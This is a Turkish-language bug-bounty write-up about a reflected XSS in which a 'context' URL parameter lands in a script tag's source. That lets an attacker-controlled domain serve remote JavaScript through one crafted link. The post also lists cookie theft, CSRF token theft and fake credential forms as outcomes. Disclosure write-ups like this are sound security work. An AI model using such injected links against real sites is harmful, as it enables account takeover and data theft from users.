 ```yaml
---
title: 'TR \| Javascript File Inclusion via a Simple Link Injection'
date: 2019-07-12
permalink: /posts/javascript-file-inclusion-via-simple-link-injection-xss/
tags:
  - xss
  - cross site scripting
  - javascript
  - file inclusion
  - link injection
  - hack
  - bugbounty
  - account takeover
  - write-up
  - poc
excerpt: 'Javascript File Inclusion (XSS) via a Simple Link Injection'
---
```


Merhaba arkadaşlar, ben Samet ŞAHİN.

HackerOne (https://hackerone.com/) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim.  

<img src="/images/LinkInjectionBlogPost.PNG">  

Sıradan bir XSS araştırmasında tüm girdilere (input) XSS saldırı kodları (payload) girmeyi elbette deneyebilirsiniz. Evet XSS böyle de bulunur AMA kaynak kodunu okumayıp, fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamadan **hacking** denediğiniz anda otomatize araçlardan pek de bir farkınız kalmayacaktır. Fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamak da Bug Bounty alanında iyi çalışmalar yapan kişilerden aldığım önerilerden biridir. 

Yani buradan bir #bugbountytip çıkarak olursak : "Sitenin ne işe yaradığını sorgula ve nasıl bozarım diye düşün."

Ufak bir trickten sonra açığımıza geri dönelim. Kaynak kodunu okumuş ve "context" isimli bir girdi etiketinin varlığını anlamıştık. Şimdi eğer daha önce çok eski sitelere **Recognize** veya **Hacking** uyguladıysanız sitenin gerçekten çalışıp çalışmadığını kontrol etmelisiniz. Hadi gelin kontrol edelim. Link'in sonunda `?context=sametsahin` yazıyorum ve kaynak koduna nerelere ve nasıl yansıdığını inceliyorum.
> URL : https://127.0.0.1/blablabla/index.html?context=sametsahin  

<img src="/images/LinkInjectionBlogPost2.PNG">  

Yukarıdaki URL adresini ziyaret ediyoruz ve CTRL-U kombinasyonuyla kaynak koduna giriyoruz. Ardından da CTRL-F ile "sametsahin" değerini aratıyoruz. Gördüğümüz kadarıyla "sametsahin" değeri tam 63 farklı yerde ve farklı şekillerde yansımış. Birazdan bu farklı yansıma şekillerinden bir tanesini kullanarak "Medium 5.4" değerinde bir Cross Site Scripting (XSS) açığı elde edeceğiz. 

Yukarıdaki resimde HTML ve JavaScript için hayati önem arz eden `<script>` etiketine "sametsahin" değerinin basıldığını ve sonuna da /javascript.js dosyasının otomatik olarak eklendiğini görüyoruz. Bu ne anlama geliyor ? Nasıl bozarım ?

> Bu, websitesinin "context" parametresinden aldığı değeri direkt olarak `<script>` etiketinin başına eklediğini ve değerin hemen sonuna da javascript.js dosyasını alarak çalıştığını anlıyoruz.  


> Eğer benden aldığı değeri direkt olarak `<script>` etiketinin içine yerleştiriyor ise ben bu değeri bir kontrolümdeki site adresiyle değiştirip o sitedeki /javascript.js dosyasının içeriğini zararlı kodlar (payload) ile doldurarak XSS açığına erişebilirim.

Bu durumda XSS açığına sebep olan URL adresimiz şu şekilde gözükecektir.
> URL : https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?  

<img src="/images/LinkInjectionBlogPost3.png">  


Ve URL adresine kullanıcıya tıklattırdığımda kullanıcı tarayıcısında zararlı kodumuz (XSS Payloadımız) çalışacaktır.  

<img src="/images/LinkInjectionBlogPost4.png">  



**Peki neler yaptık ?**  
1 -> Recognize ile bir HTTP uygulaması ve bir klasöre eriştik.  
2 -> Eriştiğimiz klasördeki index dosyasının kaynak kodunu okuduk.  
3 -> Kaynak kodunu okurken "context" isimli bir parametre olduğunug gördük.  
4 -> "Context" parametresinin nerelere ve nasıl yansıdığını tespit ettik.  
5 -> Kendimize bazı sorular sorduk.  
6 -> Kontrolümüzdeki bir websitesiyle değiştirdik ve "context" parametresine yazdık.  
7 -> Basit bir Link Injection'dan yola çıkarak en iyisinden bir Cross Site Scripting açığı elde ettik.  


**Peki bu Cross Site Scripting ile neler yapılabilirdi ?**  
1 -> Kullanıcı Cookie'leri çalınıp kullanıcı hesabına erişilebilirdik.  
2 -> Kullanıcıyı zararlı websitelerine yönlendirebilirdik.  
3- > CSRF Korumalarını bypass edebilir veya CSRF Tokenlerini çalabilirdik.  
4 -> Websitesinde sahte formlar oluşturup Email, Telefon, Adres, Kimlik ve Parola gibi hassas verileri çalabilirdik.  
....  


**HackerOne Raporu ?**  
<img src="/images/LinkInjectionBlogPost5.png">  



Normal bir XSS açığında saldırı senaryosu geniştir ama bu tür JavaScript dosyası dahil edilebilen tür XSS açıklarında zararlı kodunuzu dilediğiniz kadar uzun yazabildiğiniz için oldukça tehlikelidir. 

Ve tüm bu işlemlerin ardından ortaya çıkardığım orijinal bir #BugBountyTip : 
> **Even a Simple Link Injection can be very harmful. Depends on where it is.**


Samet ŞAHİN

